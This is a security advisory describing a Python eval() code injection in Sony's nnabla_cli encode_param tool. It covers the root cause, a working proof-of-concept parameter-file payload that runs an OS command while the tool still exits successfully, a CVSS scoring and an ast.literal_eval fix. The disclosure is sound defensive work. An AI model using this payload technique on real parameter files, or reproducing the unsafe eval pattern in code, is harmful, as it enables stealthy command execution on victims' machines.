




# Neural Network Libraries (nnabla) ≤ v1.39.0 — Python eval() Code Injection in `nnabla_cli encode_param` Leading to Arbitrary Command Execution

## Summary

Sony Neural Network Libraries (nnabla) up to and including v1.39.0 is affected by a Python code injection vulnerability in the plain-text parameter encoder of the `nnabla_cli` command-line tool. The first line of every `.txt` parameter file (the tensor shape header) is passed to Python's built-in `eval()` without validation. An attacker who can supply a parameter directory to a victim (shared model/parameter folders distributed via download, model hub, or git repository) achieves arbitrary Python and OS command execution when the victim runs the documented command `nnabla_cli encode_param -i <dir> -p <out>.h5`. The canary payload shown below still returns a legal shape value, so the command completes normally with exit code 0, making the execution stealthy.

## Affected Product

| Field | Value |
|---|---|
| Vendor | Sony (Sony Group Corporation) |
| Product | Neural Network Libraries (nnabla) |
| Affected versions | All versions up to and including v1.39.0 (final release, 2024-05-29); vulnerable code still present at the master branch tip at analysis time (2026-09-24). Exact introduction version: [unknown] |
| Component | `python/src/nnabla/utils/cli/encode_decode_param.py` — `load_param_in_txt()`, reachable via the `encode_param` CLI subcommand |
| Platform | Any OS supported by nnabla (Linux / Windows / macOS), Python 3 |
| Vulnerability type | CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ("Eval Injection") |

## Root Cause

**Location:** `python/src/nnabla/utils/cli/encode_decode_param.py:37` (`load_param_in_txt`)

```python
def load_param_in_txt(name, filepath):          # line 33
    with open(filepath, 'r') as input:
        ds = input.read()
    ds = ds.split("\n")
    shape = eval(ds.pop(0))                     # line 37 — attacker-controlled string -> eval()
    variable = nn.Variable(shape, need_grad=True)
    variable.d = np.fromstring("\n".join(ds),
                               dtype=np.float32,
                               sep="\n").reshape(shape)
    set_parameter(name, variable)
```

The caller enumerates every ordinary file in the input directory and feeds it to the vulnerable function:

```python
def encode_param_command(args, **kwargs):       # line 67
    in_files = [f for f in os.listdir(
        args.indir) if os.path.isfile(os.path.join(args.indir, f))]
    logger.log(99, 'Loading parameters...')
    for file_path in in_files:
        key = urllib.parse.unquote(
            os.path.splitext(file_path)[0].replace('~', '/'))
        logger.log(99, key)
        load_param_in_txt(key, os.path.join(args.indir, file_path))
```

**Pinned-source verification:** the identical code is present in the final release tag v1.39.0 (commit `cbf0545bf36b5fa317d71e5f6110bb9827b7da98`, 2024-05-22; tag tarball sha256 `ddae231744263c9a4a1fc2ea8a23ee6c539af570d4c7e31565094ec2dfd30d56`), with `eval(ds.pop(0))` at the same line 37; see `poc/nnabla-v1.39.0-cbf0545b/` in the attachment bundle.

Defect logic: the first line of the file is intended to hold the tensor shape, which the official writer produces via `print(x.shape, file=output)` (e.g. `(1,)`). The reader, however, never verifies that the first line is a shape literal — the string goes straight into `eval()`. Because the shape header is attacker-controlled whenever the parameter directory originates from an untrusted source, the first line is an arbitrary Python expression execution primitive. The subsequent data lines are then reshaped to whatever shape the payload returns, so a payload that ends with a legal shape value (e.g. `[1]`) allows the remaining pipeline (`nn.Variable`, `np.fromstring(...).reshape`, `save_parameters`) to complete normally.

## Proof of Concept

### Prerequisites

- nnabla ≤ 1.39.0 installed (`nnabla_cli` on PATH); no privileges, authentication or special configuration required.
- The victim runs `nnabla_cli encode_param` on a directory whose contents are attacker-controlled (the normal workflow for encoding plain-text parameters back into an `.h5` parameter file).

Evidence environment (capture date 2026-09-24): clean Docker container `python:3.10-slim` (Linux, Python 3.10.21) with nnabla 1.39.0 installed from PyPI (wheel `nnabla-1.39.0-cp310-cp310-manylinux_2_28_x86_64.whl`, sha256 `03b8b72460384cbcf7a20e2e4957f3cb1a8cf03d234694517b36e3fd793c0d40`). An initial payload-semantics check was performed on the analyst host (Windows, plain Python); all screenshots below come from the container run against the pinned v1.39.0 release.

### Steps to Reproduce

1. Create a parameter directory with a two-line file `params/weight.txt` (automation: `poc/make_poc.py`, which also generates the negative control):

   ```text
   (__import__('os').system("printf pwned > /tmp/canary.txt"), [1])[1]
   0.5
   ```

   Line 1 is the shape header; it is a lazy-canary tuple expression: evaluating it executes the OS command and then returns the legal shape `[1]`. Line 2 is the single float that satisfies shape `[1]` during the later `reshape`.

   Negative control: `params_neg/weight.txt` is byte-identical except that the first line is the official writer's output `(1,)` — only the attack field differs.

   
   This image proves: the malicious header (yellow) versus the official `(1,)` header; the two samples differ only in the attack field.

2. Run the documented encode command (automation: `poc/capture.sh`):

   ```bash
   nnabla_cli encode_param -i params -p out.h5
   ```

3. Observe the command result and the canary:

   ```bash
   cat /tmp/canary.txt   # -> pwned   (the OS command executed)
   echo $?               # -> 0       (command reported success)
   ```

   
   This image proves: nnabla 1.39.0 evaluated the header — the canary file was created (`pwned`) while the command reports "Encode Parameter Completed." and exits 0.

   
   This image proves: the `.h5` parameter file (2052 bytes) is written normally — the execution is stealthy.

4. Negative control — the same command on the directory whose header is the official `(1,)`:

   ```bash
   nnabla_cli encode_param -i params_neg -p out_neg.h5
   ls /tmp/canary.txt    # -> No such file or directory
   ```

   
   This image proves: an identical run except for the attack field completes normally and no canary file exists (`[exit 2]` from `ls`), isolating the shape header as the injection point.

### Expected vs Actual

- Expected: the shape header is parsed as inert data (a tuple/list of non-negative integers) and nothing else; a malformed header should raise a parse error.
- Actual: the header is evaluated as Python code; arbitrary OS commands execute, yet the command still completes with "Encode Parameter Completed." and exit code 0.

### Sanitized PoC input

```text
(__import__('os').system("printf pwned > /tmp/canary.txt"), [1])[1]
0.5
```

(Windows/cmd variant of the canary write: `(__import__('os').system("echo pwned> %TEMP%\canary.txt"), [1])[1]`. No real hosts, tokens or private paths are involved.)

## Impact

- Confidentiality: High — injected code runs with the victim user's privileges and can read arbitrary data.
- Integrity: High — injected code can create and modify arbitrary files (the canary demonstrates arbitrary file write).
- Availability: High — injected code can disrupt or shut down the host/process.
- Scope: arbitrary command execution in the context of the user running the CLI; no crash, exit code 0 (stealthy).

## Attack Vector and Severity (CVSS v3.1)

| Metric | Value | Rationale |
|---|---|---|
| Attack Vector | Network (N) | The malicious parameter directory is delivered remotely (download, model hub, git clone) |
| Attack Complexity | Low (L) | No special conditions; the documented command always evaluates the header |
| Privileges Required | None (N) | No authentication involved |
| User Interaction | Required (R) | The victim must run `nnabla_cli encode_param` on the attacker-supplied directory |
| Scope | Unchanged (U) | Impact limited to the victim's user context |
| Confidentiality | High (H) | Arbitrary read under victim user |
| Integrity | High (H) | Arbitrary write under victim user |
| Availability | High (H) | Arbitrary code can disrupt the host |

```
Score: 8.8 (High)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
```

Assumption note: AV:N assumes the untrusted parameter directory is obtained over the network, which matches the typical model-sharing workflow. If a local-only delivery model is assumed (AV:L), the score is 7.8 (High) — the more conservative 8.8 is reported.

## Remediation

Replace `eval()` with a safe literal parser and validate the value at `python/src/nnabla/utils/cli/encode_decode_param.py:37`:

```python
import ast
shape = ast.literal_eval(ds.pop(0))
if not (isinstance(shape, (list, tuple)) and
        all(isinstance(d, int) and d >= 0 for d in shape)):
    raise ValueError("invalid shape header in parameter file: %s" % filepath)
```

Because the project is end-of-life (announced 2025-04-03; repository archived 2026-07-29), no upstream patch is expected. Workaround for users: never run `encode_param`/`decode_param` round-trips on parameter directories from untrusted sources; downstream vendors embedding nnabla CLI should patch locally as above.

## References

- Source repository (archived): https://github.com/sony/nnabla
- Vulnerable file: https://github.com/sony/nnabla/blob/master/python/src/nnabla/utils/cli/encode_decode_param.py
- Final release: https://github.com/sony/nnabla/releases/tag/v1.39.0 (v1.39.0, 2024-05-29)
- Project end-of-life notice: https://github.com/sony/nnabla (README, EOL announced 2025-04-03)
- Vendor security portal: https://secure.sony.com/ → https://hackerone.com/sony
- CWE-95: https://cwe.mitre.org/data/definitions/95.html


